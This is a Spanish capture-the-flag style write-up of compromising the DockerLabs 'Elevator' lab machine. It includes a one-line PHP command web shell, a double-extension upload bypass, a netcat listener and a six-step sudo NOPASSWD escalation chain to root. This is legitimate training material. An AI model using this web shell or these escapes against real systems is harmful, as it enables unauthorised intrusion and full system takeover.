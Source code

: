 # 🛡️ Informe de Pentesting – Máquina *Elevator*

## 🧠 Descripción

La máquina vulnerable *Elevator* fue descargada desde la página oficial de [DockerLabs](https://www.dockerlabs.com), diseñada con múltiples niveles de escalada de privilegios. El objetivo es comprometer la máquina inicial con permisos restringidos y, mediante una cadena de escaladas, llegar a ser *root*.

---

## 🎯 Objetivos

* Obtener acceso inicial a la máquina mediante una vulnerabilidad web.
* Escalar privilegios sucesivamente entre usuarios hasta obtener acceso como *root*.

---

## ⚙️ Fase de Preparación

1. **Despliegue de la máquina:**

   ```bash
   unzip elevator.zip
   sudo bash auto_deploy.sh elevator.tar
   ```

2. **Verificación de conectividad:**

   ```bash
   ping -c4 172.17.0.2
   ```

   ![/Elevator/Imagenes/Ping.jpeg](Elevator/Imagenes/Ping.jpeg)

---

## 🔍 Fase de Reconocimiento

### Escaneo de puertos con Nmap

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

> Resultado: Sólo el puerto **80/tcp** (HTTP) está abierto.
> ![/Elevator/Imagenes/Puertos.jpeg](Elevator/Imagenes/Puertos.jpeg)

### Extracción de puertos relevantes

```bash
extractPorts allPorts.txt
```

![/Elevator/Imagenes/Servicios.jpeg](Elevator/Imagenes/Servicios.jpeg)

---

## 🌐 Fase de Enumeración Web

### Acceso al sitio principal

Se accede a la IP desde el navegador:

> [http://172.17.0.2](http://172.17.0.2)
> ![/Elevator/Imagenes/Pagina.jpeg](Elevator/Imagenes/Pagina.jpeg)
> No se observa contenido útil directamente.

### Fuzzing de directorios con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x php,html,txt
```

Se descubre el directorio `/themes/` y otros.
![/Elevator/Imagenes/Fuzzing.jpeg](Elevator/Imagenes/Fuzzing.jpeg)

### Fuzzing en subdirectorios descubiertos

```bash
gobuster dir -u http://172.17.0.2/themes/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x php,html,txt
```

---

## 🐚 Acceso Inicial: Web Shell

Se descubre un formulario de carga de imágenes en:

> [http://172.17.0.2/themes/archivo.html](http://172.17.0.2/themes/archivo.html)
> ![/Elevator/Imagenes/Subir.jpeg](Elevator/Imagenes/Subir.jpeg)

Y un directorio donde se almacenan los archivos subidos:

> [http://172.17.0.2/themes/uploads](http://172.17.0.2/themes/uploads)
> ![/Elevator/Imagenes/Directorio.jpeg](Elevator/Imagenes/Directorio.jpeg)

### Bypass de restricción de extensión

Se utiliza una *reverse shell* en PHP renombrada con doble extensión (`.php.jpg`) para evadir el filtro de archivos.

```php
<?php system($_GET['cmd']); ?>
```

Comando de subida: *(ejemplo usando navegador o interceptando con Burp Suite)*
![/Elevator/Imagenes/Gitrevershell.jpeg](Elevator/Imagenes/Gitrevershell.jpeg)
![/Elevator/Imagenes/tricks.jpeg](Elevator/Imagenes/tricks.jpeg)

Se verifica que el archivo se subió correctamente y se puede ejecutar:
![/Elevator/Imagenes/Subida.jpeg](Elevator/Imagenes/Subida.jpeg)
![/Elevator/Imagenes/Archivo.jpeg](Elevator/Imagenes/Archivo.jpeg)

---

## 📡 Establecer Reverse Shell

Desde el atacante, se escucha con Netcat:

```bash
sudo nc -lvnp 443
```

![/Elevator/Imagenes/Escucha.jpeg](Elevator/Imagenes/Escucha.jpeg)

Se accede al archivo malicioso para obtener la terminal:

> [http://172.17.0.2/themes/uploads/php\_revell\_shell.php.jpg](http://172.17.0.2/themes/uploads/php_revell_shell.php.jpg)

Se obtiene acceso como el usuario restringido `www-data`.

---

## 🔼 Escalada de Privilegios

Se ejecuta `sudo -l` para ver comandos permitidos por `sudo`:

### Ruta de escalada:

1. `www-data` → `daphne` vía `sudo -u daphne /usr/bin/env /bin/bash`
2. `daphne` → `vilma` vía `sudo -u vilma /usr/bin/ash`
3. `vilma` → `shaggy` vía `sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'`
4. `shaggy` → `fred` vía `sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'`
5. `fred` → `scooby` vía `sudo -u scooby /usr/bin/gcc -wrapper /bin/bash,-s .`
6. `scooby` → `root` vía `sudo -u root /usr/bin/sudo su`

Cada salto se realiza sin necesidad de contraseñas debido a configuraciones de `NOPASSWD`.
![/Elevator/Imagenes/Intrusion.jpeg](Elevator/Imagenes/Intrusion.jpeg)
![/Elevator/Imagenes/Escalada.jpeg](Elevator/Imagenes/Escalada.jpeg)

---

## ✅ Resultado Final

Se logra acceso completo como **root**, cumpliendo todos los objetivos de la máquina.

---

## 🧾 Conclusiones

* La máquina simula una escalada de privilegios en cadena, útil para entender la importancia de permisos restrictivos con `sudo`.
* La validación de archivos por extensión puede ser fácilmente evadida si no se implementa correctamente.
* Enumerar servicios y directorios ocultos es esencial para detectar vectores de ataque.
